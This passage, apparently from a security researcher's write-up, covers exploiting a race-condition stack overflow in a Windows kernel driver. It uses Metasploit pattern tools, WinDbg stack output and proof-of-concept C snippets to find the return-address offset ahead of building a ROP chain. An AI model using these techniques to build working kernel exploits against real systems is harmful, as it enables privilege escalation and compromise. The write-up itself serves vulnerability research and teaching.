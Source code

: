 Boom! I had triggered the bug and forced a buffer overflow on the stack. My next goal was to control `rip` with a ROP gadget.

## Controlling RIP

I ran the PoC again but this time copied an `msf-pattern_create` buffer into the user mode buffer:

```c
char pattern[] = "Aa0Aa1Aa2Aa3Aa4Aa5 // ... 0xc00 bytes
memcpy_s(userBuffer, 0xc00, pattern, 0xc00);
```

I walked the dog, waiting for the race condition to trigger the bug... race conditions can take time...

When the bug triggered I got a rather unhelpful bugcheck in Windows:

```
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

UNEXPECTED_KERNEL_MODE_TRAP (7f)
```

So I examined the call stack anyway:

```
1: kd> k
 # Child-SP          RetAddr               Call Site
00 ffffcd00`e325e508 fffff800`10f549d2     nt!DbgBreakPointWithStatus
...
23 fffff68f`ded9c788 37714336`71433571     0xfffff800`15fb6952
24 fffff68f`ded9c790 72433971`43387143     0x37714336`71433571
25 fffff68f`ded9c798 43327243`31724330     0x72433971`43387143
26 fffff68f`ded9c7a0 35724334`72433372     0x43327243`31724330
```

Way down the stack I found something that looked like my pattern, so I checked out the value at position `23`:

```
msf-pattern_offset -l 0xc00 -q 3771433671433571  
[*] Exact match at offset 2056
```

I changed the PoC to see if I could overwrite the return address on the stack with `0x4242424242424242`, if this was successful then I had found the offset of the return address overflow:

```c
userBuffer = (char*)malloc(sizeof(char*) * 0xc00);
memset((void*)userBuffer, 0x41, 0xc00);
memset((void*)(userBuffer + 2056), 0x42, 0x8);
```

Another cup of coffee... race conditions can take time...
